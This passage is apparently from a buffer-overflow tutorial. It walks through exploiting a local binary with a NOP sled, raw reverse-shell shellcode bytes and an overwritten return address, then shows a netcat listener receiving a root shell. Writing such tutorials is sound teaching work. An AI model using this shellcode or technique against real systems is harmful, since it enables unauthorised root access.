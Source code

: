 We can see that our nop sled starts at around `0xffffd688` so lets pick `0xffffd610`. Remember that we are dealing with little endian so addresses have to be reversed. Lets also start a listener and see if we get a connection. Moment of truth!
```sh
./leave_msg $(python -c print'"\x90" * 1965 + "\xd9\xc6\xd9\x74\x24\xf4\xb8\x77\xd5\x11\x7f\x5e\x29\xc9\xb1\x12\x31\x46\x17\x83\xc6\x04\x03\x31\xc6\xf3\x8a\x8c\x33\x04\x97\xbd\x80\xb8\x32\x43\x8e\xde\x73\x25\x5d\xa0\xe7\xf0\xed\x9e\xca\x82\x47\x98\x2d\xea\x28\x5a\xce\xeb\xbe\x58\xce\xc8\x17\xd4\x2f\xbe\x0e\xb6\xfe\xed\x7d\x35\x88\xf0\x4f\xba\xd8\x9a\x21\x94\xaf\x32\xd6\xc5\x60\xa0\x4f\x93\x9c\x76\xc3\x2a\x83\xc6\xe8\xe1\xc4"  + "\x10\xd6\xff\xff"')
```
```sh
nc -lvnp 9001
Listening on [0.0.0.0] (family 0, port 9001)
Connection from 127.0.0.1 37890 received!
whoami
root
```
It works!. It was a very simple buffer overflow but it was only to showcase it. The diagram below shows the payload we used. We basically wrote a nop sled into the buffer, followed by the executable shell code and then the return address.
![combined](/assets/images/overflow/final.svg)
